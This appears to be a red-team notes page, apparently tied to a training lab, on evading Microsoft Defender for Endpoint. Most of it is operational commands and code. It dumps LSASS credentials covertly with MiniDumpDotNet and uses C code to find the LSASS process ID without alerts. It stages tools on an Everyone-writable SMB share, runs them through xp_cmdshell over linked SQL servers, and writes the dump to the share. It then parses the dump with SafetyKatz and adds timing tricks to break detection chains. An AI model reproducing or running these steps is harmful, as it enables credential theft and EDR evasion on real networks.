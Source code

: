 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MDE

Endpoint Detection and Response (EDR) systems are designed to protect individual machines by continuously monitoring for malicious behavior and correlating events to detect attacker techniques, tactics, and procedures (TTPs). These systems go beyond traditional antivirus by analyzing behaviors over time, even when no single action is flagged as malicious. **Microsoft Defender for Endpoint (MDE)**, Microsoft’s native EDR, collects telemetry from the operating system and evaluates it using cloud-based analytics to identify suspicious patterns across endpoints.

## LSASS Dump

Direct interaction with the LSASS process—particularly for credential extraction—is highly monitored by MDE. While many tools attempt to dump LSASS memory by opening a process handle and invoking `MiniDumpWriteDump` from `dbghelp.dll`, this standard behavior is easily detected. A more OPSEC-conscious approach involves **creating a dump covertly and exfiltrating it for offline analysis**.

[MiniDumpDotNet](https://github.com/WhiteOakSecurity/MiniDumpDotNet) provides an alternative that bypasses standard dump APIs. It implements a custom version of `MiniDumpWriteDump` and supports .NET CLR injection into LSASS, allowing execution via standalone binaries, PowerShell reflection (`Assembly.Load()`), or even JScript/VBS loaders. It is capable of dumping various processes, including Outlook, which may contain plaintext credentials.

```powershell
.\minidumpdotnet.exe <lsass-PID> <dump-output-path>
```

Even identifying the LSASS PID with commands like `tasklist /v` can trigger alerts in MDE. To reduce visibility, process enumeration can be performed using native WinAPI calls. For example, calling `CreateToolhelp32Snapshot` and looping through `Process32Next` enables resolving a process ID without relying on standard enumeration commands:

{% code title="FindPID.c" %}
```cpp
int FindPID(const char* procname) {
    int pid = 0;
    PROCESSENTRY32 proc = {};
    proc.dwSize = sizeof(PROCESSENTRY32);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    bool bProc = Process32First(snapshot, &proc);
    while (bProc) {
        if (strcmp(procname, proc.szExeFile) == 0) {
            pid = proc.th32ProcessID;
            break;
        }
        bProc = Process32Next(snapshot, &proc);
    }
    return pid;
}
```
{% endcode %}

Embedding this logic within a known tool like MiniDumpDotNet can lead to detection, but compiling it separately as a standalone binary typically evades both Defender AV and MDE.

## File Transfers

Tool staging and execution methods also influence detection. Downloading binaries over HTTP(S) raises red flags unless masqueraded under legitimate binaries such as `msedge.exe`. A cleaner method is to **host tools on an SMB share** with `Everyone` granted read/write access, enabling direct execution without local persistence.

## Detection Chains

EDRs such as MDE correlate actions within tight timeframes. **Chaining multiple suspicious operations can trigger detections**, even if each action alone appears benign. Introducing delays between commands (e.g., 10 minutes) or interleaving benign activity (like harmless SQL queries) helps break detection logic.

## Lateral Movement

When moving laterally, MDE heavily monitors built-in methods like PsExec, WMI, and PowerShell Remoting through ASR (Attack Surface Reduction) rules. These Lua-based detection scripts can be extracted and analyzed directly from target systems. Alternatives such as `winrs` offer reduced visibility in MDE but may still be flagged by Microsoft Defender for Identity (MDI).

## Example

A full LSASS dumping workflow over a linked SQL Server can be performed covertly using MSSQL’s `xp_cmdshell`. Begin by enabling guest access if needed:

```powershell
# Enable guest access
net user guest /active:yes
```

Next, create a network share (e.g., `studentshare337`) with Read/Write permissions to Everyone and copy over binaries. Dumping begins by resolving the LSASS PID via a custom utility over the SQL link:

{% code overflow="wrap" %}
```powershell
# Execute the binary on the target
>Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\DCORP-STD337.dollarcorp.moneycorp.local\studentshare337\FindLSASSPID.exe''' -QueryTarget eu-sql23

Instance    : EU-SQL23
CustomQuery : {[+] LSASS PID: 708, }
```
{% endcode %}

To break correlation, follow with a benign command:

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT @@version' -QueryTarget eu-sql23
```
{% endcode %}

Then perform the LSASS dump, writing the output directly to the share:

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\host\share\minidumpdotnet.exe 708 \\host\share\lsass.dmp''' -QueryTarget eu-sql23
```
{% endcode %}

After exfiltration, the dump can be parsed offline using SafetyKatz:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "sekurlsa::minidump c:\path\to\lsass.dmp" "sekurlsa::evasive-keys" "exit"
```
{% endcode %}

This approach minimizes footprint, avoids standard telemetry triggers, and maintains operational control in environments actively defended by MDE and MDI.
